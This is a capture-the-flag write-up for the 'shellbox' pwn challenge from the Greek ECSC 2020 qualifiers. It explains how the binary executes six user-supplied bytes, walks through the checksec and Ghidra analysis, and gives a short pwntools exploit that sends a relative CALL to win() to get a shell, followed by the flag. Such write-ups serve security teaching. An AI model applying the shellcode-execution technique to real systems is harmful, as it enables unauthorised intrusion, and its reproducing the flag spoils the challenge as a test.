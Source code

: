 # Greek ECSC Quals 2020 - Pwn - shellbox

This challenge provides:
* libc-2.23.so
* shellbox

From checksec we see that `NX, Canary, Fortify are disabled` and only `PIE` is enabled.

```sh
gef➤  checksec
[+] checksec for '/home/w3th4nds/ctfs/ecsc2020_quals/pwn/sanity/shellbox'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

### Disassembly

We open up `ghidra` to analyze the binary. This is the code of `main()`
```c
undefined8 main(void)

{
  setup();
  banner();
  read(0,g_buf,6);
  (*(code *)g_buf)();
  return 0;
}
```

and this is the code of `win()`
```c
void win(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
The goal here is to call `win()` and get shell.  
As we can see, `read()` reads up to `6` bytes and stores them to `g_buf`. After that, `g_buf` is called! This is the vulnerability.  
So, what we need to do is: store at`g_buf[0]` the address of `win()`.  
The problem is that **PIE** is `enabled` so we do not know the exact address of win.  

We are going to `ghidra` once again and `patch` the program in order to see what the call looks like if `g_buf[0]` has the command `CALL win`.  

![patch](https://i.imgur.com/Y5VjwHL.png)  

We see the bytes are `e8 cb e9 df ff`.  
### Exploit

```python
#!/usr/bin/python3
from pwn import *

ip = 'docker.hackthebox.eu'
port = 30252
filename = './shellbox'

def pwn():

	r = remote(ip,port)

	call_win = p64(0xffdfe9cbe8)
	r.sendline(call_win)
	r.interactive()

pwn()
```

**FLAG: HTB{jump_around_jump_around!}**